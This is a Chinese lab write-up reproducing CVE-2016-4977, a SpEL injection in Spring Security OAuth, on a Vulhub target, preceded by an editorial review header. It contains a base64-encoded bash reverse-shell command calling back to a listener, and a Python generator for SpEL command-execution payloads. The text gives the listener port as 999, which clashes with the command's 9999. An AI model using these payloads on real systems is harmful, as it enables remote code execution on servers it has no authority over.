




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：缺影响修复版本；正文明确需要已授权用户，示例使用 \[用户名/密码组合已隐藏\] 实验账号

代码与实验材料：有算术验证、字符编码生成器和回连过程，证据图片未视检

来源证据范围：有 secalert、Deadpool、知道创宇及 Vulhub 代码链接

- **事实待核（1）**：缺组件版本矩阵；依据：全文无 Spring Security OAuth 受影响及修复版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：回连端口自相矛盾；依据：编码命令使用 9999，文字写监听 999。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring Security OAuth2 远程命令执行漏洞 CVE-2016-4977

## 漏洞描述

Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了 Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

参考链接：

- http://secalert.net/#CVE-2016-4977
- https://deadpool.sh/2017/RCE-Springs/
- http://blog.knownsec.com/2016/10/spring-security-oauth-rce/

## 环境搭建

Vulhub 执行如下命令启动漏洞环境：

```
docker-compose up -d
```

启动完成后，访问 `http://your-ip:8080/` 即可看到 web 页面。

## 漏洞复现

访问 `http://your-ip:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入 `admin:admin` 即可。

可见，我们输入是 SpEL 表达式 `${233*233}` 已经成功执行并返回结果：



java 反弹 shell 的命令如下：

```
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```

然后，我们使用 [poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py) 来生成反弹 shell 的 POC：

```
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```



如上图，生成了一大串 SpEL 语句。附带上这个 SpEL 语句发送请求：



监听 999 端口，成功接收反弹 shell（`/bin/bash` 反弹成功，`bash` 反弹失败）：




---

> 来源：Threekiii/Awesome-POC
